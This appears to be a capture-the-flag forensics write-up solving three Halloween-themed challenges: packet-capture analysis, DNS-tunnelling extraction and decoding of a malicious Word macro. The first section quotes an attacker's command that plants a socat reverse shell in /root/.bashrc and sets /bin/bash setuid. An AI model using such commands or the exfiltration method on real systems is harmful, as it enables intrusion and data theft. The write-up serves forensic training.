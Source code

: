 # **Wrong Spooky Season**
```
"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us.
I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. 
Analyze the the network traffic and find how the scary ghosts got in and what they did.
```

First challenge, they give us one pcap file. There're two ways you can solve this.

*Unintended solution:*

You can simply use `strings` to see what inside the pcap file.

```
┌──(kali㉿devilmachine)-[/mnt/d/WSL_LAB/Workplace/htb-boo/forensics_wrong_spooky_season]
└─$ strings *.pcap
...
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
VDc0c
'"FO
'"FO
I;r?
ls -lha
'"FO
'"FO
I;rtotal 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
```

So there is a base64 encoded string. Reverse it then decode, we have the flag.

*Intended solution:*

Open the pcap file then follow TCP stream to the last. Here is the result:

~pic~


## FLAG: HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
___

# **Trick or Breach**
```
Our company has been working on a secret project for almost a year. None knows about the subject, although rumor is that it is about an old Halloween legend where an old witch in the woods invented a potion to bring pumpkins to life, but in a more up-to-date approach.
Unfortunately, we learned that malicious actors accessed our network in a massive cyber attack. Our security team found that the hack had occurred when a group of children came into the office's security external room for trick or treat.
One of the children was found to be a paid actor and managed to insert a USB into one of the security personnel's computers, which allowed the hackers to gain access to the company's systems.
We only have a network capture during the time of the incident. Can you find out if they stole the secret project?
```

We have another pcap file in this challenge. Let's see what inside:

~pic~

If you notice, there're some strange URLs that were captured during the transmission. This is DNS Tunneling - one of the real world attack. Those strange URLs that you can see in wireshark were encoded or encrypted. Let's find out by extracting those URLs.

I filtered the query IP then copied whole data to a file

~pic~

```
1	0.000000	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xa49f A 504b0304140008080800a52c47550000000000000000000000.pumpkincorp.com
3	1.062969	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xdd23 A 0018000000786c2f64726177696e67732f64726177696e6731.pumpkincorp.com
5	2.069426	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xcf3f A 2e786d6c9dd05d6ec2300c07f013ec0e55de695a181343145e.pumpkincorp.com
7	3.155776	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xb53f A d04e300ee0256e1b918fca0ea3dc7ed14a36697b011e6dcb3f.pumpkincorp.com
9	4.236338	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x6195 A f9efcd6e74b6f84462137c23eab212057a15b4f15d230eef6f.pumpkincorp.com
11	5.254457	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x5634 A b395283882d76083c7465c90c56efbb41935adcfbca722ed7b.pumpkincorp.com
13	6.298151	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xacfd A 5ea7b2117d8cc35a4a563d3ae0320ce8d3b40de420a6923aa9.pumpkincorp.com
15	7.319849	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x8482 A 09ce497656ceabea45f240089a7bc4b89f26e2eac1039a03e3.pumpkincorp.com
```

Then I wrote this script to extract the encoded parts.

```py
f = open('qry.txt','r').readlines()
data = [i.split()[-1].replace('.pumpkincorp.com','') for i in f]
data = "".join(data)
wb = bytes.fromhex("".join(data))
wf = open('sus','wb')
wf.write(wb)
```
## FLAG: HTB{M4g1c_c4nn0t_pr3v3nt_d4t4_br34ch}
___
# **Halloween Invitation**
```
An email notification pops up. It's from your theater group. Someone decided to throw a party. The invitation looks awesome, but there is something suspicious about this document. Maybe you should take a look before you rent your banana costume.
```

We were given a suspicious file named `invitation.docm`. When I opened it up, it said there was a macro content.  There are two ways you can get this macro. First you can use `olevba` - a powerful tool to extract macro from .doc file. Second, you can just simply open it in doc file xD

I chose first and here is the result:

~pic~

That's the suspicious content which we need to decode.

```py
import base64
flag = ""
flag += "74 65 66 122 65 68 48 65 74 119 65 51 65 68 99 65 76 103 65 51 65 68 81 65 76 103 "
flag += "65 120 65 68 107 65 79 65 65 117 65 68 85 65 77 103 65 54 65 68 103 65 77 65 65 52 "
flag += "65 68 65 65 74 119 65 55 65 67 81 65 97 81 65 57 65 67 99 65 90 65 65 48 65 68 77 "
flag += "65 89 103 66 106 65 71 77 65 78 103 66 107 65 67 48 65 77 65 65 48 65 68 77 65 90 "
flag += "103 65 121 65 68 81 65 77 65 65 53 65 67 48 65 78 119 66 108 65 71 69 65 77 103 65 "
flag += "122 65 71 69 65 77 103 66 106 65 67 99 65 79 119 65 107 65 72 65 65 80 81 65 110 65 "
flag += "71 103 65 100 65 66 48 65 72 65 65 79 103 65 118 65 67 56 65 74 119 65 55 65 67 81 "
flag += "65 100 103 65 57 65 69 107 65 98 103 66 50 65 71 56 65 97 119 66 108 65 67 48 65 85 "
flag += "103 66 108 65 72 77 65 100 65 66 78 65 71 85 65 100 65 66 111 65 71 56 65 90 65 65 "
flag += "103 65 67 48 65 86 81 66 122 65 71 85 65 81 103 66 104 65 72 77 65 97 81 66 106 65 "
flag += "70 65 65 89 81 66 121 65 72 77 65 97 81 66 117 65 71 99 65 73 65 65 116 65 70 85 65 "
flag += "99 103 66 112 65 67 65 65 74 65 66 119 65 67 81 65 99 119 65 118 65 71 81 65 78 65 "
flag += "65 122 65 71 73 65 89 119 66 106 65 68 89 65 90 65 65 103 65 67 48 65 83 65 66 108 "
flag += "65 71 69 65 90 65 66 108 65 72 73 65 99 119 65 103 65 69 65 65 101 119 65 105 65 69 "
flag += "69 65 100 81 66 48 65 71 103 65 98 119 66 121 65 71 107 65 101 103 66 104 65 72 81 "
flag += "65 97 81 66 118 65 71 52 65 73 103 65 57 65 67 81 65 97 81 66 57 65 68 115 65 100 "
flag += "119 66 111 65 71 107 65 98 65 66 108 65 67 65 65 75 65 65 107 65 72 81 65 99 103 66 "
flag += "49 65 71 85 65 75 81 66 55 65 67 81 65 89 119 65 57 65 67 103 65 83 81 66 117 65 72 "
flag += "89 65 98 119 66 114 65 71 85 65 76 81 66 83 65 71 85 65 99 119 66 48 65 69 48 65 90 "
flag += "81 66 48 65 71 103 65 98 119 66 107 65 67 65 65 76 81 66 86 65 72 77 65 90 81 66 67 "
flag += "65 71 69 65 99 119 66 112 65 71 77 65 85 65 66 104 65 72 73 65 99 119 66 112 65 71 "
flag += "52 65 90 119 65 103 65 67 48 65 86 81 66 121 65 71 107 65 73 65 65 107 65 72 65 65 "
flag += "74 65 66 122 65 67 56 65 77 65 65 48 65 68 77 65 90 103 65 121 65 68 81 65 77 65 65 "
flag += "53 65 67 65 65 76 81 66 73 65 71 85 65 89 81 66 107 65 71 85 65 99 103 66 122 65 67 "
flag += "65 65 81 65 66 55 65 67 73 65 81 81 66 49 65 72 81 65 97 65 66 118 65 72 73 65 97 "
flag += "81 66 54 65 71 69 65 100 65 66 112 65 71 56 65 98 103 65 105 65 68 48 65 74 65 66 "
flag += "112 65 72 48 65 75 81 65 55 65 71 107 65 90 103 65 103 65 67 103 65 74 65 66 106 65 "
flag += "67 65 65 76 81 66 117 65 71 85 65 73 65 65 110 65 69 52 65 98 119 66 117 65 71 85 "
flag += "65 74 119 65 112 65 67 65 65 101 119 65 107 65 72 73 65 80 81 66 112 65 71 85 65 101 "
flag += "65 65 103 65 67 81 65 89 119 65 103 65 67 48 65 82 81 66 121 65 72 73 65 98 119 66 "
flag += "121 65 69 69 65 89 119 66 48 65 71 107 65 98 119 66 117 65 67 65 65 85 119 66 48 65 "
flag += "71 56 65 99 65 65 103 65 67 48 65 82 81 66 121 65 72 73 65 98 119 66 121 65 70 89 "
flag += "65 89 81 66 121 65 71 107 65 89 81 66 105 65 71 119 65 90 81 65 103 65 71 85 65 79 "
flag += "119 65 107 65 72 73 65 80 81 66 80 65 72 85 65 100 65 65 116 65 70 77 65 100 65 66 "
flag += "121 65 71 107 65 98 103 66 110 65 67 65 65 76 81 66 74 65 71 52 65 99 65 66 49 65 "
flag += "72 81 65 84 119 66 105 65 71 111 65 90 81 66 106 65 72 81 65 73 65 65 107 65 72 73 "
flag += "65 79 119 65 107 65 72 81 65 80 81 66 74 65 71 52 65 100 103 66 118 65 71 115 65 90 "
flag += "81 65 116 65 70 73 65 90 81 66 122 65 72 81 65 84 81 66 108 65 72 81 65 97 65 66 118 "
flag += "65 71 81 65 73 65 65 116 65 70 85 65 99 103 66 112 65 67 65 65 74 65 66 119 65 67 "
flag += "81 65 99 119 65 118 65 68 99 65 90 81 66 104 65 68 73 65 77 119 66 104 65 68 73 65 "
flag += "89 119 65 103 65 67 48 65 84 81 66 108 65 72 81 65 97 65 66 118 65 71 81 65 73 65 "
flag += "66 81 65 69 56 65 85 119 66 85 65 67 65 65 76 81 66 73 65 71 85 65 89 81 66 107 65 "
flag += "71 85 65 99 103 66 122 65 67 65 65 81 65 66 55 65 67 73 65 81 81 66 49 65 72 81 65 "
flag += "97 65 66 118 65 72 73 65 97 81 66 54 65 71 69 65 100 65 66 112 65 71 56 65 98 103 "
flag += "65 105 65 68 48 65 74 65 66 112 65 72 48 65 73 65 65 116 65 69 73 65 98 119 66 107 "
flag += "65 72 107 65 73 65 65 111 65 70 115 65 85 119 66 53 65 72 77 65 100 65 66 108 65 71 "
flag += "48 65 76 103 66 85 65 71 85 65 101 65 66 48 65 67 52 65 82 81 66 117 65 71 77 65 98 "
flag += "119 66 107 65 71 107 65 98 103 66 110 65 70 48 65 79 103 65 54 65 70 85 65 86 65 66 "
flag += "71 65 68 103 65 76 103 66 72 65 71 85 65 100 65 66 67 65 72 107 65 100 65 66 108 65 "
flag += "72 77 65 75 65 65 107 65 71 85 65 75 119 65 107 65 72 73 65 75 81 65 103 65 67 48 "
flag += "65 97 103 66 118 65 71 107 65 98 103 65 103 65 67 99 65 73 65 65 110 65 67 107 65 "
flag += "102 81 65 103 65 72 77 65 98 65 66 108 65 71 85 65 99 65 65 103 65 68 65 65 76 103 "
flag += "65 52 65 72 48 65 83 65 66 85 65 69 73 65 101 119 65 49 65 72 85 65 99 65 65 122 65 "
flag += "72 73 65 88 119 65 122 65 68 81 65 78 81 66 53 65 70 56 65 98 81 65 48 65 71 77 65 "
flag += "99 103 65 119 65 68 85 65 102 81 65 61"
#print(flag)
adu = flag.split()
hehe = ""
for i in adu:
    hehe += chr(int(i))
#print(hehe)
#bruh = flag.replace(" ","")
print(base64.b64decode(hehe).decode("UTF-8"))
```
## FLAG: HTB{5up3r_345y_m4cr05}

___
# **POOF**

